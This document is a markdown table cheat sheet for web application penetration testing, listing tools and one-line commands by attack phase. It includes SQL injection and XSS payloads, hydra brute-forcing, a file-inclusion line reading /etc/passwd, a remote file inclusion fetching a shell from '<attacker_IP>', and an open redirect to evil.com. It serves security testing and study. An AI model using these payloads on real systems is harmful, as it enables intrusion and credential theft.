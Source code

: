 | **Category** | **Purpose** | **Tool/Command Examples** | **Notes** |
| --- | --- | --- | --- |
| **Reconnaissance** |  |  |  |
| Identify Technologies | Determine web server, framework, and CMS. | `whatweb <url>`  `wappalyzer <url>` | Identifies technologies, versions, and possible vulnerabilities. |
| Passive Information Gathering | Analyze website content and source code. | Use browser tools like **View Source** or **Burp Suite Repeater**. | Look for comments, API keys, or sensitive info in HTML/JS files. |
| **Subdomain Fuzzing** | Discover subdomains of a target domain using ffuf. | `ffuf -u http://FUZZ.example.com -w /path/to/subdomains.txt -v` | Replace `example.com` with the target domain. |
|  | Fuzz with HTTPS subdomains. | `ffuf -u https://FUZZ.example.com -w /path/to/subdomains.txt -v` | Useful for domains that enforce HTTPS. |
|  | Filter responses by size to find valid subdomains. | `ffuf -u http://FUZZ.example.com -w /path/to/subdomains.txt -fc 404` | Use `-fc <code>` to filter specific response codes like 404. |
|  | Fuzz with IP ranges for internal subdomains. | `ffuf -u http://FUZZ.internal.example.com -w /path/to/subdomains.txt` | Use for testing environments with internal subdomain structures. |
|  | Save results to a file. | `ffuf -u http://FUZZ.example.com -w /path/to/subdomains.txt -o output.json -of json` | Use the JSON format for easy parsing and further automation. |
|  | Recursive subdomain fuzzing. | Use discovered subdomains as input for another round of ffuf scanning. | Manually add discovered subdomains to a new wordlist for deeper fuzzing. |
| **Common Wordlists** | Use default or custom subdomain lists. | `/usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt` | SecLists provides comprehensive subdomain lists. |
|  | Create a custom subdomain wordlist. | `cewl -d 2 -w subdomains.txt http://target.example.com` | Crawl the target website to generate targeted subdomain guesses. |
| **Validation** | Verify subdomains with DNS resolution. | `dig <subdomain>.example.com` or `nslookup <subdomain>.example.com` | Ensure subdomains resolve to valid IP addresses. |
|  |  |  |  |
| Directory Enumeration | Discover hidden directories and files. | `gobuster dir -u <url> -w /path/to/wordlist.txt`  `ffuf -u <url>/FUZZ -w /path/to/wordlist.txt` | Use different wordlists for better coverage (e.g., SecLists). |
| Parameter Discovery | Find hidden GET/POST parameters. | `ffuf -u <url>?FUZZ=test -w /path/to/wordlist.txt -fs <known_response_size>` | Use `-fs` to filter responses by size or other filtering options. |
| **Authentication Attacks** |  |  |  |
| Brute Force Login | Attempt credential brute-forcing. | `hydra -l <username> -P /path/to/passwords.txt <target> http-post-form "/login:username=^USER^&password=^PASS^:F=Login failed"` | Customize form parameters to match the application’s structure. |
| Bypass Login Protections | Attempt bypass techniques (e.g., SQLi or weak logic). | `' OR '1'='1`  `admin'--` | Test login forms with SQL injection payloads or logic bypass techniques. |
| **Input Validation** |  |  |  |
| SQL Injection | Exploit vulnerable SQL queries. | `sqlmap -u <url> --dbs` | Automate injection discovery and exploitation with SQLMap. |
| Cross-Site Scripting (XSS) | Inject JavaScript to execute in the browser. | `<script>alert('XSS')</script>`  `<img src=x onerror=alert('XSS')>` | Test input fields and HTTP headers for reflection or persistent XSS. |
| Command Injection | Execute system commands through vulnerable input. | `http://<target>/vulnerable?cmd=ls`  ` | whoami` |
| **File Inclusion/Uploads** |  |  |  |
| Local File Inclusion (LFI) | Exploit file path vulnerabilities to read local files. | `http://<target>/?file=../../../../etc/passwd` | Use tools like `fimap` to automate discovery. |
| Remote File Inclusion (RFI) | Include remote files for code execution. | `http://<target>/?file=http://<attacker_IP>/shell.php` | Ensure the target server has internet access for RFI. |
| Malicious File Upload | Upload malicious files for execution. | Upload reverse shell (e.g., PHP). | Use tools like Burp Suite to intercept and modify file upload requests. |
| **Session/Authentication Attacks** |  |  |  |
| Session Fixation | Force a victim to use an attacker-controlled session. | Manually set `Set-Cookie` headers with a crafted session ID. | Test with weak session management systems. |
| Session Hijacking | Steal active sessions from users. | Intercept cookies with tools like Burp Suite or `mitmproxy`. | Look for insecure cookies (`HTTPOnly`, `Secure` flags missing). |
| JWT Manipulation | Tamper with JSON Web Tokens. | Decode and modify JWTs with tools like `jwt_tool` or `jwt.io`. | Check for weak signing algorithms like `none` or hardcoded keys. |
| **Exploitation** |  |  |  |
| Command Execution | Execute OS commands via vulnerable parameters. | `curl http://<target>/vuln?cmd=cat /etc/passwd` | Use chained commands (`;`, ` |
| SSRF (Server-Side Request Forgery) | Exploit server-side requests to access internal systems. | `curl http://<target>?url=http://127.0.0.1:22` | Look for vulnerable URL parameters; escalate to RCE or internal network enumeration. |
| Open Redirects | Redirect users to malicious sites. | `http://<target>?url=http://evil.com` | Check for vulnerable `url` or `redirect` parameters. |
| **Post-Exploitation** |  |  |  |
| Cookie/Token Replay | Replay captured cookies or tokens to impersonate users. | Use browser developer tools or tools like `Cookie Editor`. | Test for missing `HttpOnly`, `Secure`, or CSRF protections. |
| Privilege Escalation in Apps | Exploit weak permissions or roles. | Test user functionality manually or with tools like Burp Intruder. | Check for IDOR (Insecure Direct Object References) vulnerabilities. |
| Sensitive Data Exposure | Search for leaked credentials or sensitive information. | Use tools like `strings` or search exposed directories. | Look for `.git`, `.env`, backup files, or sensitive configurations. |
| **Automation Frameworks** |  |  |  |
| OWASP ZAP | Automated scanning for web vulnerabilities. | `zap-baseline.py -t <url>` | Useful for identifying common vulnerabilities quickly. |
| Burp Suite | Manual and automated testing for web vulnerabilities. | Use Burp Intruder and Repeater for payload testing. | Ensure the application proxy is configured correctly. |
| Nikto | Scan web servers for known vulnerabilities. | `nikto -h <url>` | Useful for detecting outdated server software and misconfigurations. |
